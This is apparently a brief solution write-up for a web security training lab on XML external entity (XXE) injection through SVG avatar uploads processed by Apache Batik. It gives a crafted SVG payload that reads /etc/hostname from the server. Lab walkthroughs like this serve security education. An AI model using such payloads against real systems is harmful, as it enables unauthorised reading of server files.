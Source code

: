 # Exploiting XXE via image file upload

## This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

## To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

---

### step 1

upload svg file

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

save as svg
upload open svg
